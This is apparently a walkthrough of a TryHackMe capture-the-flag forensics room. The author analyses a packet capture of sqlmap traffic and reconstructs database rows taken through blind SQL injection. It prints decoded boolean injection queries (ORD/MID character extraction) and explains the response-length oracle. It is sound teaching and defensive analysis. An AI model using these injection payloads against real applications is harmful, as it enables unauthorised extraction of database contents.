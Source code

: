 ```yaml
---
title: TryHackMe Sequel Dump Hackfinity Battle Write-Up Walk Through
date: 2025-03-22 06:00:00 +0200
categories: [TryHackMe, CTF,Hackfinity Battle, TryHackMe Write Up]
tags: [tryhackme,ctf, SequelDump, Hackfinity, ctf, sqlmap,wireshark,BlindSql]
description: "In this video, we tackle the 'Sequel Dump' room from the TryHackMe Hackfinity Battle CTF. We'll analyze a PCAP file to uncover a blind SQL injection attack using sqlmap"
comments: false
media_subpath: /assets/img/
image:
  path: tryhackme-sequel-dump-room.png
  alt: TryHackMe Sequel Dump Hackfinity Battle
---
```


## Sequel Dump - Recovering STOLEN DATA from Blind SQL Injection

A wave of suspicious web requests has bee detected hammering our database-driven application. Analysts suspect an automated `SQL injection attack` has been launched using `sqlmap`, leading to potential data `exfiltration`. Investigate the provided packet capture (`PCAP`) file to uncover the attackers's actions and determine what was stolen! 

**[You can follow YouTube video walk through here](https://youtu.be/Wjz8igduiDw)**

### Enumeration Phase

The journey begins with the login page (`http://robots.thm/login.php`). A quick test revealed the username field reflected input unsanitized. Injecting a simple XSS payload:

In this video, we tackle the 'Sequel Dump' room from the TryHackMe Hackfinity Battle CTF. We'll analyze a PCAP file to uncover a blind SQL injection attack using sqlmap. First, we'll walk through the manual process of reconstructing the attacker's requests and extracting the stolen data, character by character. Then, we'll show you how to automate this process with a Python script, saving time and effort. Learn how to identify and exploit blind SQL injection vulnerabilities and recover valuable data. Let's get started!"

<img src="tryhackme-sequel-dump-room-wireshark-capture.png"  alt="TryHackMe Sequel Dump Wireshark capture" >

```html
Frame 23252: 449 bytes on wire (3592 bits), 449 bytes captured (3592 bits) on interface eth0, id 0
Ethernet II, Src: VMware_76:32:b1 (00:0c:29:76:32:b1), Dst: VMware_e8:af:99 (00:50:56:e8:af:99)
Internet Protocol Version 4, Src: 172.16.175.128, Dst: 10.10.195.62
Transmission Control Protocol, Src Port: 43124, Dst Port: 80, Seq: 1, Ack: 1, Len: 395
Hypertext Transfer Protocol
    GET /search_app/search.php?query=1%20AND%20ORD%28MID%28%28SELECT%20IFNULL%28CAST%28%60description%60%20AS%20NCHAR%29%2C0x20%29%20FROM%20profile_db.%60profiles%60%20ORDER%20BY%20id%20LIMIT%202%2C1%29%2C83%2C1%29%29%3E100 HTTP/1.1\r\n
        Request Method: GET
        Request URI: /search_app/search.php?query=1%20AND%20ORD%28MID%28%28SELECT%20IFNULL%28CAST%28%60description%60%20AS%20NCHAR%29%2C0x20%29%20FROM%20profile_db.%60profiles%60%20ORDER%20BY%20id%20LIMIT%202%2C1%29%2C83%2C1%29%29%3E100
            Request URI Path: /search_app/search.php
            Request URI Query: query=1%20AND%20ORD%28MID%28%28SELECT%20IFNULL%28CAST%28%60description%60%20AS%20NCHAR%29%2C0x20%29%20FROM%20profile_db.%60profiles%60%20ORDER%20BY%20id%20LIMIT%202%2C1%29%2C83%2C1%29%29%3E100
                Request URI Query Parameter: query=1%20AND%20ORD%28MID%28%28SELECT%20IFNULL%28CAST%28%60description%60%20AS%20NCHAR%29%2C0x20%29%20FROM%20profile_db.%60profiles%60%20ORDER%20BY%20id%20LIMIT%202%2C1%29%2C83%2C1%29%29%3E100
        Request Version: HTTP/1.1
    Cache-Control: no-cache\r\n
    User-Agent: sqlmap/1.8.11#stable (https://sqlmap.org)\r\n
    Host: 10.10.195.62\r\n
    Accept: */*\r\n
    Accept-Encoding: gzip,deflate\r\n
    Connection: close\r\n
    \r\n
    [Response in frame: 23274]
    [Full request URI […]: http://10.10.195.62/search_app/search.php?query=1%20AND%20ORD%28MID%28%28SELECT%20IFNULL%28CAST%28%60description%60%20AS%20NCHAR%29%2C0x20%29%20FROM%20profile_db.%60profiles%60%20ORDER%20BY%20id%20LIMIT%202%2C1%29%2]
```
**[You can follow YouTube video walk through here](https://youtu.be/Wjz8igduiDw)**

We can notice a lot of `GET` requests by `sqlmap` to end point `/search_app/search.php`, the URL decoded value is:

```console
query=1 AND ORD(MID((SELECT IFNULL(CAST(`description` AS NCHAR),0x20) FROM profile_db.`profiles` ORDER BY id LIMIT 2,1),83,1))>100
```

 It’s clear that the attacker is using a `Blind SQL Injection` technique to extract data from the description field in the `profile_db.profiles` table, one character at a time. The attacker is leveraging the HTTP response sizes to determine whether a condition is true or false: a response length of `425 bytes` indicates "true," while a length of `262 bytes` indicates "false." The queries use the `ORD(MID())` function to check the ASCII value of each character in the description field, comparing it against various thresholds to narrow down the exact value.

**[You can follow YouTube video walk through here](https://youtu.be/Wjz8igduiDw)**


### Manually Extracting the data

We can manually extract the data by following same login `sqlmap` is  using, here an example, below are the queries `sqlmap` using the get the last character, position 41 in `description` field.

```console
"50964","156","/search_app/search.php?query=1 AND ORD(MID((SELECT IFNULL(CAST(`description` AS NCHAR),0x20) FROM profile_db.`profiles` ORDER BY id LIMIT 6,1),41,1))>64"
"50990","156","/search_app/search.php?query=1 AND ORD(MID((SELECT IFNULL(CAST(`description` AS NCHAR),0x20) FROM profile_db.`profiles` ORDER BY id LIMIT 6,1),41,1))>96"
"51022","156","/search_app/search.php?query=1 AND ORD(MID((SELECT IFNULL(CAST(`description` AS NCHAR),0x20) FROM profile_db.`profiles` ORDER BY id LIMIT 6,1),41,1))>112"
"51043","156","/search_app/search.php?query=1 AND ORD(MID((SELECT IFNULL(CAST(`description` AS NCHAR),0x20) FROM profile_db.`profiles` ORDER BY id LIMIT 6,1),41,1))>120"
"51056","156","/search_app/search.php?query=1 AND ORD(MID((SELECT IFNULL(CAST(`description` AS NCHAR),0x20) FROM profile_db.`profiles` ORDER BY id LIMIT 6,1),41,1))>124"
"51068","41","/search_app/search.php?query=1 AND ORD(MID((SELECT IFNULL(CAST(`description` AS NCHAR),0x20) FROM profile_db.`profiles` ORDER BY id LIMIT 6,1),41,1))>126"
"51089","41","/search_app/search.php?query=1 AND ORD(MID((SELECT IFNULL(CAST(`description` AS NCHAR),0x20) FROM profile_db.`profiles` ORDER BY id LIMIT 6,1),41,1))>125"
```
we can follow the steps below to get the correct character:

```console
Position 41:
>64 → 156 bytes (True) → >64
>96 → 156 bytes (True) → >96
>112 → 156 bytes (True) → >112
>120 → 156 bytes (True) → >120 
>124 → 156 bytes (True) → >124
>126 → 41 bytes (False) → <=126
>125 → 41 bytes (False) → <=125
Range: 125 (ASCII }).
```
You can see position 42 is basically the end of the flag `}`

We follow same steps and get the full contents of row 6.

## Automatic Getting the Flag Using Python Script

We can use `python` script to read the extracted queries from `Wireshark`, we can use `Tshark` for this, one command we can use is:

```console
tshark -C tryhackme -r challenge.pcapng -Y "http.request.uri contains "ORD%28MID%28%28SELECT%20IFNULL%28CAST%28%60description%60%20AS%20NCHAR%29%2C0x20%29%20FROM%20profile_db.%60profiles%60%20ORDER%20BY%20id%20LIMIT" and http.request.uri contains "description" and http.response.code == 200 " -T fields -e frame.number -e http.content_length -e http.request.uri -E separator=, -E quote=d | python3 -c 'import sys, urllib.parse; [print(urllib.parse.unquote(line), end="") for line in sys.stdin]' > 1.csv
```
We can then run python script to read all the queries targeting description data:

```console
python3 go-clearn-stars.py 
Detected row lengths:

Extracted data:
Row 0: The cryptography expert who deciphers the toughest encryptions, searching for vulnerabilities in Void[1048576]s encoded fortress.
Row 1: The exploit hunter who detects and patches vulnerabilities before they can be weaponized, skilled in penetration testing and reverse engineering.
Row 2: The OSINT (Open-Source Intelligence) specialist who tracks Void[128]s movements through the dark web and gathers intelligence from hidden networks.
Row 3: The network infiltrator who can breach even the most fortified systems, bypassing firewalls and uncovering hidden data.
Row 4: The forensic analyst who reconstructs digital crime scenes, piecing together evidence from fragmented files and corrupted logs.
Row 5: The AI security specialist who builds countermeasures against Void[128]s evolving attack algorithms and neutralizes rogue AI threats.
Row 6: Here's the flag: THM{r3************_dump}
```

**[You can follow YouTube video walk through here](https://youtu.be/Wjz8igduiDw)**

## Takeaways
This room showcase sqlmap attack using blind sql injection to extract data from vulnerable database.

# Want the Full Walkthrough?

Check out my **[full video walkthrough](https://youtu.be/Wjz8igduiDw)** on my YouTube channel for step-by-step guidance:

**[You can follow YouTube video walk through here](https://youtu.be/Wjz8igduiDw)**

<img src="tryhackme-sequel-dump-room-youtube-video.png"  alt="TryHackMe Sequel Dump YouTube Video Walk through" >



